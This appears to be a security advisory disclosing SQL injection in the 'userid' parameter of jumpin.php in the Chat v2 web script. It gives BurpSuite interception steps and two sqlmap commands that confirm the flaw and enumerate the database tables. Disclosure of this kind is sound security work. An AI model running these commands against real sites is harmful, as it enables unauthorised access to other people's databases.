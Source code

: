 ## Chatv2 has SQL injection Vulnerability Description
- Author: Eddie TC CHANG, YUNG-HAO TSENG, YU-HSIANG HUANG
- Contact: eddietcchang@gmail.com; 0xuhaw@gmail.com; huang.yuhsiang.phone@gmail.com
---
### Testing Target
- Product: chat
- Version: 2
- Official Website: https://css-tricks.com/chat2/
- Github: N/A

### Summary
The Chatv2 has SQL injection.

### Description
The `userid` parameter in `/chat2/ jumpin.php` has SQL injection vulnerability.
 
### Concept
1. Build the chat2 test environment, and create a chat then send test message out.
![](./png/1.png)
2. Back to default page, input new desired username. Use BurpSuite to intercept POST package for sqlmap test before submitting.
![](./png/2.png)
![](./png/3.png)
3. SQL injection testing via sqlmap. Find out valid payload, then obtain web server’s information and can further enumerate DB, table or other use.
**payload:**`py -2 sqlmap.py -r D:\sql.txt -p userid --dbms mysql --level 5 --risk 3 --threads=5`
![](./png/4.png)
**payload:**`py -2 sqlmap.py -r D:\sql.txt -p userid --dbms mysql --level 5 --risk 3 --threads=5 -D chat2_db --tables`
![](./png/5.png)
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE0NDc2NzUxMDBdfQ==
-->